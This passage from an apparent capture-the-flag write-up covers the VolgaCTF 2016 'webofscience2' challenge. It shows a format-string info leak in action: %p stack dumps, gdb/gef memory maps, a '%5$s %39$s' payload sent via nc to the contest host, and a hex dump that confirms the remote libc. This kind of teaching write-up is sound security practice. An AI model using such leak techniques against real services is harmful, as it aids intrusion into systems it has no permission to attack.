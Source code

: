 0x1060307d 0xa00000000 0xaf3500007061 0x11f96 0x7025207025207025 0x25207025207
02520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252
070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x702520702520702
5 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 
0x2070252070252070 0x7025207025207025 0x722072756f79202c 0x3a65736e6f707365 0x
7fffffff0020 0x7ffff7de9557 0x1 (nil) 0x7fffffffe560 0x7ffff763fbf8 (nil) 0x7f
ffffffe5c0 0x400930 0x7ffff7df0515 0x56fa4787 0x7ffff7677eee (nil) 0x12b26f64f
79fb9e0 (nil) 0x3f204c1c5f0bbc00, your response: ^Z
Program received signal SIGTSTP, Stopped (user).
[snip]
gef➤  vmmap
             Start                End             Offset Perm Path
[snip]
0x00007ffff763b000 0x00007ffff77f6000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.19.so
0x00007ffff77f6000 0x00007ffff79f5000 0x00000000001bb000 --- /lib/x86_64-linux-gnu/libc-2.19.so
0x00007ffff79f5000 0x00007ffff79f9000 0x00000000001ba000 r-- /lib/x86_64-linux-gnu/libc-2.19.so
0x00007ffff79f9000 0x00007ffff79fb000 0x00000000001be000 rw- /lib/x86_64-linux-gnu/libc-2.19.so
[snip]
{% endhighlight %}

the 5th and 39th pointers point to somewhere in the libc:
{% highlight shell-session %}
gef➤  x/gx 0x7ffff79f9140
0x7ffff79f9140 <pa_next_type>:	0x0000000000000008
gef➤  x/gx 0x7ffff7677eee
0x7ffff7677eee <__srandom_r+206>:	0x48c031ed75fffb83
{% endhighlight %}

Let's see what they contain on the remote binary by using the `%s` format this
time:
{% highlight shell-session %}
$ nc webofscience2.2016.volgactf.ru 45679
Tell me your name first
%5$s %39$s 
Alright, pass a little test first, would you.
17944 + 62901 = ?                                                                                                      ûÿuí1ÀHÄ[]A\øÿÿÿÿëðff. , your response:
{% endhighlight %}

A tool to capture traffic is needed to see what is in the returned packet:
{% highlight shell-session %}
    00000018  41 6c 72 69 67 68 74 2c  20 70 61 73 73 20 61 20   Alright,  pass a 
    00000028  6c 69 74 74 6c 65 20 74  65 73 74 20 66 69 72 73   little t est firs
    00000038  74 2c 20 77 6f 75 6c 64  20 79 6f 75 2e 0a 31 37   t, would  you..17
    00000048  39 34 34 20 2b 20 36 32  39 30 31 20 3d 20 3f 0a   944 + 62 901 = ?.
    00000058  08 20 83 fb ff 75 ed 31  c0 48 83 c4 10 5b 5d 41   . ...u.1 .H...[]A
    00000068  5c c3 b8 ff ff ff ff eb  f0 66 66 2e 0f 1f 84 20   \....... .ff.... 
    00000078  2c 20 79 6f 75 72 20 72  65 73 70 6f 6e 73 65 3a   , your r esponse:
{% endhighlight %}

The leak starts right after the newline at `17944 + 62901 = ?`. The byte number
`0x58` is `0x08` which correspond to what is located at `0x7ffff79f9140`. Then
there is `0x20` which is a whitespace. Then there is `0x83` which correspond
the the first byte located at `0x7ffff7677eee` and the following bytes
correspond. It seems that we have the same libc `\o/`


[gcc]: http://archive.ubuntu.com/ubuntu/pool/main/g/gcc-4.8
[libc]: http://packages.ubuntu.com/trusty/libc6
[libc2]: http://archive.ubuntu.com/ubuntu/pool/main/e/eglibc/
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget